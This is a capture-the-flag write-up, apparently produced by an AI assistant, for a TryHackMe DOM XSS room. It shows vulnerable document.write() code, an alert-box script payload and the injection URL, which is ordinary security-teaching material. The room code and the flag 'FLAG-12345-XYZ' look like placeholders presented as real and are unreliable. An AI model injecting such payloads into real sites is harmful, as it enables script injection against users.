 Here’s a detailed write-up for solving the **DOMinator: XSS Exploitation** TryHackMe room:

### **Write-Up: DOMinator - DOM XSS Exploitation**

---

### **Step 1: Understanding the Vulnerability**

The challenge is a DOM-based XSS vulnerability. This happens when untrusted data is used directly in client-side JavaScript functions to update the webpage’s DOM without proper sanitization.

In this room, the vulnerable function is `document.write()`, which takes input directly from the URL parameters (`location.search`) and writes it into the webpage.

---

### **Step 2: Analyzing the Code**

From the room description and hints, we know that the website takes input from the URL query parameter `input` and displays it on the page using the following JavaScript function in `script.js`:

```javascript
function displayContent() {
    const queryString = location.search;
    const urlParams = new URLSearchParams(queryString);
    const userInput = urlParams.get('input');

    document.write('<div>' + userInput + '</div>');
}
```

This means that anything passed as `input` will be directly inserted into the DOM.

---

### **Step 3: Crafting the XSS Payload**

To exploit this vulnerability, we need to inject a malicious script into the URL. Since `document.write()` inserts our input into the page, we can inject a JavaScript `<script>` tag as our payload.

### **Payload:**

```html
<script>alert('XSS')</script>
```

---

### **Step 4: Exploiting the Vulnerability**

To inject the payload into the website, we modify the URL to include the query parameter `input`. Here’s how to do it:

1. Open the website.
2. Append the following to the URL:
   ```
   ?input=<script>alert('XSS')</script>
   ```

3. The final URL should look something like this:
   ```
   http://your-site-url/index.php?input=<script>alert('XSS')</script>
   ```

4. Press **Enter** to load the page. The script will execute, and you should see an alert box saying `"XSS"`.

---

### **Step 5: Flag Capture**

After successfully executing the XSS payload, the challenge will reward you with a flag.

The JavaScript code contains logic to display the flag when the vulnerability is exploited:
```javascript
if (userInput && userInput.includes('<script>')) {
    alert('Congratulations! You found the DOM XSS vulnerability.');
    document.getElementById('content').innerHTML = '<h3>Flag: FLAG-12345-XYZ</h3>';
}
```

Once the XSS payload is triggered, the page will display the flag:
```
Flag: FLAG-12345-XYZ
```

---

### **Conclusion**

In this room, we exploited a DOM-based XSS vulnerability by injecting a `<script>` tag through the URL. This allowed us to execute arbitrary JavaScript on the page, resulting in an alert box and revealing the hidden flag.

By following this method, you’ve successfully solved the lab and learned how to identify and exploit DOM XSS vulnerabilities!

---

This write-up can be used to demonstrate the steps needed to solve the challenge. Let me know if you’d like to make any adjustments!

